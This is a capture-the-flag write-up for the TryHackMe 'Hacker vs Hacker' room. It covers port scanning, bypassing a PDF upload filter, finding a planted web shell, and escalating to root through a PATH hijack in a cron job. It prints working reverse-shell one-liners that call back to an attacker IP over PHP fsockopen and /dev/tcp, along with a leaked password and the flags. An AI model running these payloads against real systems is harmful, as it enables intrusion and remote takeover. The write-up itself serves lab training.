 # [Challenge](https://tryhackme.com/room/hackervshacker)

# ENUM
## nmap (`nmap -A -p- -T4 --min-rate 5000 hvh`)
```nmap
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 9f:a6:01:53:92:3a:1d:ba:d7:18:18:5c:0d:8e:92:2c (RSA)
|   256 4b:60:dc:fb:92:a8:6f:fc:74:53:64:c1:8c:bd:de:7c (ECDSA)
|_  256 83:d4:9c:d0:90:36:ce:83:f7:c7:53:30:28:df:c3:d5 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: RecruitSec: Industry Leading Infosec Recruitment
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# EXPLOITATION
```php
$target_dir = "cvs/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);

if (!strpos($target_file, ".pdf")) {
  echo "Only PDF CVs are accepted.";
} else if (file_exists($target_file)) {
  echo "This CV has already been uploaded!";
} else if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
  echo "Success! We will get back to you.";
} else {
  echo "Something went wrong :|";
}
```
Maybe the hacker has already uploaded the shell... let's check: `ffuf -u "http://hvh/cvs/FUZZ.pdf.php" -w /usr/share/seclists/Discovery/Web-Content/common.txt`
`shell                   [Status: 200, Size: 18, Words: 1, Lines: 2, Duration: 60ms]`
Perfect! Let's also check the parameters: `ffuf -u "http://hvh/cvs/shell.pdf.php?FUZZ=id" -w /usr/share/seclists/Discovery/Web-Content/api/objects.txt -fw 1` -> `cmd` here we are! Let's do a revshell: `php%20-r%20%27%24sock%3Dfsockopen%28%2210.8.13.111%22%2C4444%29%3Bexec%28%22bash%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27` (normal: `php -r '$sock=fsockopen("10.8.13.111",4444);exec("bash <&3 >&3 2>&3");')
Let's also open an interactive shell: `python3 -c "import pty;pty.spawn('/bin/bash')"`
`user.txt`: `thm{af7e46b68081d4025c5ce10851430617}`
# PRIVILEGE ESCALATION
In `/home/lachlan/.bash_history` there's his password: `thisistheway123`
In the file there's also a path to a cron file: ``
```bash
PATH=/home/lachlan/bin:/bin:/usr/bin
# * * * * * root backup.sh
* * * * * root /bin/sleep 1  && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 11 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 21 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 31 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 41 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 51 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
```
Let's make a script called `pkill` in `/home/lachlan/bin` (path):
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.8.13.111/5555 0>&1
```
Let's wait and... we're ROOT!
`root.txt`: `thm{7b708e5224f666d3562647816ee2a1d4}`
